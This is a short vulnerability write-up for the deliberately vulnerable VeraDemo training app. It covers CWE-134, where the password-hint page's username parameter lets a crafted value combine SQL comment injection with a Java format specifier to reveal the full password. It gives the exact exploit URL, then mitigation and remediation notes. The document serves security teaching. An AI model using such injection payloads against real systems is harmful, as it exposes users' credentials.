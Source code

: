 CWE-134: Use of Externally-Controlled Format String in VeraDemo
===============================================================

VeraDemo has a helpful feature that will allow you to get a hint about your obfuscated password.
Unfortunately the obfuscation is injectable so we can inject our own format specifiers in there.

Exploit
-------
1. Go to http://localhost:8080/password-hint?username=admin%27%20--%20the%20full%20password%20is%22%251%24s%22%20and%20the%20partial%20password%20is:
2. See the full password as well as the obfuscated password.

Note that the URL decoded version of the username is: admin' -- the full password is"%1$s" and the partial password is
So first we end the SQL query with "' -- " which will consider everything after the -- to be a quote for the SQL query.
Then we embed the format specifier "%1$s" which tells the Java Formatter to provide the full first argument.

Mitigation
----------
Apply input filtering to username

Remediation
-----------
Do not concatenate the username but use another format parameter.

Resources
---------
* [CWE-134](https://cwe.mitre.org/data/definitions/134.html)
